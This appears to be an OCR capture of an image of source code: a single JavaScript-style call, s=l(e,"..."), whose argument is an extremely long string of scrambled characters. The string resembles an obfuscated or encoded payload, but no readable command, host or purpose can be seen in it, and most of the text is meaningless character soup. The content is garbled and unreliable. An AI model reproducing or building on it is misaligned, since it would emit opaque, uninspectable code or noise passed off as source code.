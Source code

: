 s=l(e,"=3ce4SYPfWDU_7v6D3WYv3c_PW_797SfDev_Yf_P3_Y3Wv6U4Uf_vceScWPPU7MfSeW_3WPP_v333PY7DU6Y43fDr_PeUcse4YW_WU3ePY_o3MSeS7U363e_fP7iYUUW6Y44WvvDeePS_SoW>7Y3D3v_ePfsdcSUUU6S3vWS76ccPBUWU72vS3W_vPe!D_36SWfc0M4vWWf_7DcrYUUY66PP7_eeP7PD76ovSWD4v7fv_WcDSvUU)Y4eW777ce44f4_6ccYPUWlS4vWU77cUP4_4A_SYDf6ecSPUUW0446Wf<UPU7M<UYcU5v764YU7eceYUYU7W664DWS7vY3_33SSeW7D4evfMfSceYUDU664FWxv,c4cfUU}7SvDY6cvDf3_Sc3SUD76S4SfWf7c7Pef7UW3647Wfvec__e3DYSD_6D*_4_WPc_Y7UvEfS4Sf7PcSeDf76We4fUUSeDPcDDkPe3D6D6V34efv7Wcc_S%USDDYv6e3f3_S_W3vS7Df6ee_Ue36YSU3vPS4WcvSc_fe_Y_43eSfDevvD_6f43fe7e3P67S3W37_cPP}6S46DPvWe3f6f36PS_UUD7ye43f_7Pc2Wf&fSWDcvD1UP6U7EWSvDcv_6ce7fW7D37YfUe6_YvvSc6fFU_3ZY3SfDSv_ePfceAf)_4cZ6U47f67DcSYv7v4_WP_DcDPY_43Y3SPUDW64e6ffcWY4_S6WSYD37vefPfUv7636YDUPuc4vWWvSe3f2__3SYcDP64e7f77SjUYcW6vDeSPv^3S7UUjc37f7vc3UPS_,8r4PDeW_vfe8PU_Y%6W77E64S_ff7e3vYPvDSYDmvYe4PYUWt60vDf6cv6fc74cP3UUDX-6_fv7Pe3cf_P,Y4vS4_Dc6fvfT7c34S6DD6eY77ce34_U_TWSWDeWDvecvPW_433P6DS6leUf4(eS6U_9f444DvWcfPkPY)7SSDSv7v7f373_v4;Ue6v43W37S7UPS_eU_cUWU6ycUfc72p73SS6Uy6eevfW7c4SU3674eDcv4ePcvfR_cs7SfD33Pfw7D734PD_qU6v4fWW7_cPPcUU4eD46S36fU_e333PP_DU6Y43fDcUYY_P6USfDevTeDPD_Kv3c3Y_U6JPS4W_vSeqfc_D3PSvDW63e6fU_c3lSYD3v_DUvec6f4_fUZ#344f67DceW66vSeWf7ccDPYP6vf3eSvDW6cY_73ebccPSv44_W_v4v4Pc_W3SSWDwvD63P77_cYY_US64ScWc7PcFPY_33W34SYUPvDeSf _WYDDSRYeDWPvc36PWUW66c%Y#DU6U4YWS7UcYPcUv%7SfDc7SccYWU466UvQvSZWXPf_Sy_SPDc46U36Pee3UWPD66D4SfvtDP7UPA/SvD_6PvDP7_33v3YUS64e_4c_637PY_cUWcYWUvWe7e9D33fYYDS6U4Se7_W3YY3Uf/W47WvvfvEP3_S3e+_Uq634ceWf3__3PYcD76f4ePv3fcYPcUD>SS*;vSUWePv733cS7Df63YS7WcDYYUvUPc7Wc63veeYPP_cC7SY_Ye4P6DfcYPTUUa34U4fWW7_cPPcUUcvWv6ecvfS7e3d3PYYDU6Y43fDcWPYUfMfSWSODYv4c6PD_ee6Ucv_3SWev3c_36WY6v4vWYWYvUcDPS_9^Wff6SeefY_7c4YPW46v4PW6W36fcSP^UU*4f_v7eve4_G3_SDY}6P4Sff7e3_YYY7?3S34v7DePc6UU_SYKDPvP4Df37W7c36YYU36_4SU6c4fePS_6kWS4W6vfSU_UcnSUUclhe744WPg7YD_c334UDeDSvPeUPU_Y33SD_DeffeUv3DPfU66fS/D4WSvGcUPY_3-_SPDcv7eDDU_v3WY4D7euf67Ue;cfUWKPSSWWW643PY7e_UYYUe6U4UfP7Bc_YfUcUWSUWfvvc7eRDf3SY+DD7DePfBffIWe3YW_v674fWe7_P7Uf3W47DD6Secf___3ceePeUv3eSSDY6eeUfD7K3fYSD66v4fWP7_34YUDf6eevfP3S4v_43;SKD4_P3cS4__r_S7feDS66eWf4_63fW3.34YWYWec7Pv_YU6cvWv6ecvfS7e3H3PPrDU6Y43fDc7P_DT7_ScW4_YefPe_v364cfc6fcDevWc7c37YfU3c3f67D34P3UD3YSYDP63vv43fc_73fY37W4WWDvecUSoUSg_SYSe6cvPecP7_YS7U4664YW4DYvYe3U66WSDS_vac7fe_c3DScU}6WeYfv_Dc3YUU_6f4_W7DcccPW_c_6evWW6eeSfP7Yv6YDUWU7cSf773c_YY_c34eSDevSeYf{f_3DSfD46_defP_63YY4Uv_S4vf7vFe!e_D4q_SGDUvS43WeU4ccY4US666D4SWH7UcYP3U_3UWcW66UeePv_W3cf_63S5PSvYcUPPUeJYeWW7veeUPS_73WScDfDS6)eUfY733_YPUce74fWe7vcWP4U6vD_4vCv7SDf3__3PY87_46fWUceEPv_WU_(6PvvYeYPvPvd_YeD66eeDf4fU3PPY_z/Y46fvv_c_P3UD32SUUeDvv6eWfY7D3DYSU26WP4vccSPzUW8ejDPvvvv_eYWY_D3SYzDWceffvP7WSP_fF7SWWSvfvYf7U33SSUUev74SW3_DczPUYD_46v4WW477S__WFPSDD36feUeWDS3cS7U4FS4WWDv47_e6P?UUjY46_Ueffe_767SDDevDcWWS7vc%P8U4 UcUWP77cfP4_fvYY4D66f634PfS7I3UY46v4eDcvcc4f3_fMeS7W6634,ePWv_U3YY3DD43WfvecDPffD_D3SWSvSeDPS__3DSPY_6}eU4vUfcfPmD_77e3DS7UcDS/Pf77G_SPDcvUf__PcfS_UW{443WU7Uc34cfc_7coYSD6X,4DWMvecPPfU6xUSDDcv6ceP4UPTc47WY?7f4_63YefD36U6c4DfY733_Uvcc4cWftUSjfUvY&DYv_cvce_Dv6S_vcPYcD76f43U7e4cY_4NU4DWU7ve4ee_UuvSfDfvU6S4PfW7436Yf7D4eWWv4cSY6U_k6 6S7DevveWfc6DYDU/XY67SeW37_cPP:vD46DvD 36fU7S3UYWDUvv444eW37PccY7UY4_W3vfcUe3f4_S3nSUD43_f_77cYYvWv6DSfW6WYvScDPS_K Wf36*c6f/_W_636YeDv6WDD6v4_fD733vYvSeDWvPecP7_YefD66We_fD7e67P3UW6_4fD&WW6ec7Pf_e%_ffvPe_f3USc3P3U36W4Pf_7SeePe_4CvAUSWW6vDeSPv^3Y3U*6e6WPcf77fceY_ReSDDSv_eD4_f_7PS6DP6Pe64_7ccDYcPW,44YD DY6ee6fv7fcIY_U46vf7_fccY4UYuSe6f_vye3PDU4TD3YW6v44e4Yf7_W34S6D_6S4sfU7fc4Y_UPVc4U7Wl_e#fc_4{6SDDe37fcv36_Y_UWRWSe4fWe7vcWPPU6TDSSUceveYfc__3fYcD76fSe7O7WcSY6U_9SS>WUvYecP__P3cSvDf6eevfD7636YDUS%cS3WYv3c_PSv7S_WUv_eSeWf4_63DYSUI6USD737ve6PcU7>fS36cc7fv_c36YDDPa343fPDfvfeefe_v37YeDv6D4YWSv#cDS7_463e_fP7QYPUvQWS5WvU#6xeUUU)UYuWU6c4.P7Wc3YY3P47vS4fv7e3cf3WW7SSWD7Wvv_ecP7_f33fvv_4efYf_v3c!YUUY66PDvcecPDPDvfS6DUv6eYf}fP7f3UYYU36DY_vec7PvUD:vS6SYD_vDeSfg_WYUDf(ce_W-7fcDYPU66_SfWSW_vDeNPU_Y?6Wc6c43f4fD8Y3vYWU467f*76cPc7W_z_Y3W_6e43PvfS3_Y4U46_6_f67eedcfUSae4vDcW6c7f47%34SUDSD_4UW3f7c_YUUeUW4PWUveeSPc_DOPYeDCDf6c4_fY733_YSv34GWS7DnvPD_DsDScDMvScvf___37YPYcD76f4eWD7Wc4Y6__fvS}WUvYeWP__P3cY6_{6ee6fW7f36YDUSr-YSWYv3c_PW_cKvSfDev6eWf4_63DYSUH6UYYWe7_cPPcU7JfSvWvvW4UP6__3SYADU6D43U_vUccY6UfQf4vW6v4S6ff_S3cSUD7634YfPgc3vYfUS6v4DW4vccDDSc7/USfD36SePf4_73f_cDv6W44W37DcYPCUUyPS3W_vPeeP7_f3eSvUc64e6fD7Pe3YUUY!34D_YcSPDU66eS6D6v6ePfS_D3eP3U3Kc4_4WUS77cfPeU_44DS6Yv_P6_eceS7Ye6e4PWf74c_YDU4UU4PW6W_e1f<_y3PYSUVvvePWefDVQYS_4UP664DWSvocUPY_3cMWPD46ceffe_v3PW46c4Wf_WcvWcYP3U_CSP7v7c7f47c37SUD4G26PY77ce3cePcUPFc47WYVvP7U_<7SYS_U76QeUfY_6PaDU:_4KW7vfcSP6U6OScYYYU3934_WUv3c_Pf_43eSvDf7UcWY6UD*S4v73e3f+_e_W3DS7Df6ee_DvcSY6_r6_S&D3WYv3c_PP_Uh7SfDevvUcf4_63DYSUd6U4YU3vDcPPcU7qfSeW6vWe4fS_D3PYgDU6Y4Sf_/PeDY7UD5eScWWvWc6DD_U3?S7DY6De_fW7c47P3UeyX4WWD76e3PS6j3vSYDev_e6fc7I3fYe?76W44f67_cSP3UUQYScW_vPecPv_f3eSvDW6ve6fD7SccP^UYB34_WS3cPh_PBD3oWOD4v6eDfehYYSD7Ue4DWcvccDcDUUO6S7SY6Se4P_fc6fS7U_Dv43fSvc7DYPUS;#S4S376eYfc_YB7SPSv674ee67v37YSYU6W47WSvPc4P_UW3SScSDD46Seffe_v3PfW